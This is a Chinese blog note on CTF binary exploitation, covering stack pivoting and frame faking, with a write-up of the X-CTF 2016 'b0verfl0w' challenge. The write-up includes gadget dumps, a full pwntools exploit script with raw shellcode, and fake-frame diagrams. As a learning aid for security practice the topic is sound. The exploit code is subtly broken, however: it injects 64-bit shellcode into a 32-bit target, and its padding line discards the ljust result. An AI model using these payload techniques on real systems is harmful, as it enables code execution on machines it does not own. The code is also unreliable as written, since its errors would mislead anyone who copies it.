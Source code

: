 ```yaml
---
title: 花式栈溢出
date: 2023-04-24 20:37:48
tags:
---
```

本文是本人跟着ctf-wiki上学之后做的笔记，自认为写得比较详细

## 栈转移

栈转移是指劫持`SP`指针到我们能控制的位置，以便实现一些之前不方便的操作

一般来说需要使用该技巧的情况有：

- 可控的栈溢出字节数较少，难以构造长 payload 进行 rop
- 有PIE地址随机化，栈地址未知。可以通过劫持转移栈到已知地址
- 其他漏洞难利用，转换后更方便，比如把栈转移到堆空间后写rop

要求有：

- 可控程序执行流
- 可控`SP`指针

一般来说控制`SP`指针用`pop rsp/esp`

`__libc_csu_init`中就有这种gadgets，但要使用偏移

```python
gef➤  x/7i 0x000000000040061a
0x40061a <__libc_csu_init+90>:  pop    rbx
0x40061b <__libc_csu_init+91>:  pop    rbp
0x40061c <__libc_csu_init+92>:  pop    r12
0x40061e <__libc_csu_init+94>:  pop    r13
0x400620 <__libc_csu_init+96>:  pop    r14
0x400622 <__libc_csu_init+98>:  pop    r15
0x400624 <__libc_csu_init+100>: ret    
gef➤  x/7i 0x000000000040061d
0x40061d <__libc_csu_init+93>:  pop    rsp  # 原本pop r12
0x40061e <__libc_csu_init+94>:  pop    r13
0x400620 <__libc_csu_init+96>:  pop    r14
0x400622 <__libc_csu_init+98>:  pop    r15
0x400624 <__libc_csu_init+100>: ret
```

此外，还有更加高级的 fake frame，要求有一段可以控制内容的内存，一般是如下：

- bss 段。由于进程按页分配内存，分配给 bss 段的内存大小至少一个页 (4k，0x1000) 大小。然而一般 bss 段的内容用不了这么多的空间，并且 bss 段分配的内存页拥有读写权限。
- heap。但是这个需要我们能够泄露堆地址。

### X-CTF Quals 2016 - b0verfl0w

```
checksec: 什么都没开
Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x8048000)
    RWX:      Has RWX segments
```

IDA反编译：

```c
signed int vul()
{
  char s; // [sp+18h] [bp-20h]@1

  puts("\n======================");
  puts("\nWelcome to X-CTF 2016!");
  puts("\n======================");
  puts("What's your name?");
  fflush(stdout);
  fgets(&s, 50, stdin); # 读50个字符，不好构造长payload
  printf("Hello %s.", &s);
  fflush(stdout);
  return 1;
}
```

这题的思路是在栈上填入短`shellcode`，然后想办法`jmp esp`，`EIP`就会跳到栈上。我们提前在栈上填入机器码处理`esp`，使`esp`指向`shellcode`后再次`jmp esp`

构造的payload结构如下：

`shellcode|padding|ebp|jmp_esp_addr|asm("sub esp, 0x?;jmp esp")`

```bash
# 查找 jmp esp
$ ROPgadget --binary b0verfl0w --only "jmp"|grep esp
0x08048504 : jmp esp
```

执行`sub esp`时`ESP`到shellcode的距离可以通过看payload长度计算出来

首先`shellcode+padding`是0x20

`ebp`0x4

`jmp_esp_addr` 0x4

我们需要设置`esp`到`shellcode`，而此时`esp`在`jmp_esp_addr`的后面指向asm，所以需要对`esp` - 0x28

exp：

```python
from pwn import *
sh = process("./b0verfl0w")

shellcode = b"\x48\x31\xd2\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73"
shellcode += b"\x68\x48\xc1\xeb\x08\x53\x48\x89\xe7\x50\x57\x48\x89\xe6\xb0\x3b\x0f\x05"
shellcode.ljust(0x20, b'a') # 填充shellcode长度
sub_esp_jmp_esp = asm("sub esp, 0x28;jmp esp") #生成机器码
jmp_esp_addr = 0x08048504
payload = flat([shellcode, "bbbb", jmp_esp_addr, sub_esp_jmp_esp])
sh.sendline(payload)
sh.interactive()
```

## frame faking(栈伪造)

构建一个虚假的栈帧来控制程序的执行流。我们需要同时控制`IP`和`BP`寄存器，这样我们就能在控制程序执行流的同时也改变栈帧的位置

以下内容基于x86架构

这种攻击方式payload的格式一般如下：`buffer padding|fake ebp|leave_ret_addr|`其中`fake ebp`为我们构造的假栈帧的基址。注意这里多了`leave`指令

回顾`leave`指令的等效用法：`mov esp, ebp; pop ebp` 在执行此命令之前，`EBP`指向栈中saved ebp

执行后，`EBP`回到主调函数位置，`ESP`指向retaddr

而`ret`指令实际上等效于`pop eip`，执行后`ESP`完全回到主调函数的原位置

上面提到的payload中，`retaddr`被覆盖为`leave_ret_addr`，这导致程序ret后会再次执行`leave` `ret`

接下来的描述有点绕，在这里先明确一些代号：

- `ebp2`是一个值，这个值是一个内存地址，是我们最终想赋给寄存器`EBP`的值(使`EBP`指向这个地址)
- `ebp2_addr`是一个值，这个值是一个内存地址，该处内存保存着`ebp2`的值

假栈帧大致格式：

```

+---------------------+
| arg2 of function    | 高地址
+---------------------+
| arg1 of function    |
+---------------------+
| leave_ret_addr      |
+---------------------+
| target function addr|
+---------------------+
| ebp2                |
+---------------------+ <- ebp2_addr
```

payload的`fake ebp` 就是 `ebp2_addr`:

```
buffer padding|**fake ebp**|leave_ret_addr|
buffer padding|**ebp2_addr**|leave_ret_addr|
```

利用此payload，我们可以依次做以下事情：

```nasm
leave:
	mov esp, ebp
	pop ebp # 使ebp变为ebp2_addr

ret # run leave ret again

leave:
	mov esp, ebp # 使esp也变为ebp2_addr，这让esp指向了ebp2_addr
	pop ebp # 此时esp指向ebp2_addr，此操作会将该处内存的ebp2值赋给ebp

ret # return to target function 需要提前在ebp2_addr+4处写入target function addr

# after target function, return to leave_ret_addr
# 然后程序又会执行类似的操作。如果我们在ebp2指向的地址处也设置好了相应内容，就能继续劫持ebp+eip
# 当然，如果假栈帧能控制的大小足够长，我们也可以直接像以前一样构造纯粹的rop，不再借助leave ret
# 即假栈帧的结构为:

+---------------------+
| ...                 | 高地址
+---------------------+
| next_retaddr        |
+---------------------+
| arg2                |
+---------------------+
| arg1                |
+---------------------+
| pop_xxx_pop_xxx_ret |
+---------------------+
| target function addr|
+---------------------+
| ebp2                | 
+---------------------+ <- ebp2_addr
```

### 待添加